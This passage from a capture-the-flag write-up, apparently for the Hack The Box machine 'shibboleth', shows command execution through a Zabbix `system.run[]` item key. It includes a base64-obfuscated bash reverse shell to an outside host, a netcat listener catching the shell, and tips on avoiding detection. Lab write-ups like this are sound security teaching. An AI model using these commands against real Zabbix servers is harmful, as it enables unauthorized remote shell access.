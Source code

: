 I’ll set the name to something arbitrary. For the Key, I’ll use `system.run[]`
to run the stuff inside `[]` in a shell. I’ll try a simple `id`:

[![image-20220331064837385](https://0xdfimages.gitlab.io/img/image-20220331064837385.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220331064837385.png)

At the bottom of the form there are three buttons:

![image-20220331064855568](https://0xdfimages.gitlab.io/img/image-20220331064855568.png)

Rather than “Add”, which will set this running periodically and be loud as far
bad OPSEC, I’ll use “Test”, which will run it once as a test without saving
it. Clicking pops another box:

[![image-20220331065003525](https://0xdfimages.gitlab.io/img/image-20220331065003525.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220331065003525.png)

Clicking “Get value” populates the “Value” field with the result of the
script, in this case, the output of the `id` command:

[![image-20220331065049219](https://0xdfimages.gitlab.io/img/image-20220331065049219.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220331065049219.png)

That’s execution!

### Reverse Shell

#### Initial Connection

I’ll first try a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw), but it just returns a
value of 1 and doesn’t make a connection. I suspect having the redirects
passing through Zabbix is causing an issue. To eliminate special character
issues, I’ll base64 encode the command:

    
    
    oxdf@hacky$ echo "bash  -i >& /dev/tcp/10.10.14.6/443 0>&1 " | base64
    YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK
    

I’ve added a couple extra spaces in to get rid of any `+/=` characters.

I’ll set the Key to:

    
    
    system.run[echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash]
    

When I click “Get value”, there’s a connection and a at my `nc` listener:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.124 39694
    bash: cannot set terminal process group (101294): Inappropriate ioctl for device
    bash: no job control in this shell
    zabbix@shibboleth:/$
    